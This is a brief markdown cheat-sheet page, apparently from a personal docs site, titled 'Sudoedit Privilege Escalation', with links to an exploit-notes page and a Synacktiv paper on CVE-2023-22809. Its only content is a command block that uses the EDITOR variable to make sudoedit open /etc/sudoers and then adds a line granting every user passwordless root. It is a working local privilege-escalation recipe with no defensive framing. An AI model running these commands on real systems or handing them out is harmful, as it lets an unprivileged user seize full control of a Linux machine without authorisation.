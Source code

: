 ```yaml
---
title: Sudoedit Privilege Escalation
description: A reference page in my new Starlight docs site.
---
```


### TL;TR

```
sudo -l
export EDITOR="vim -- /etc/sudoers"
sudoedit /tmp/vulnerable.txt
user ALL=(ALL:ALL) NOPASSWD:ALL
```

### References

- https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/
- https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf 
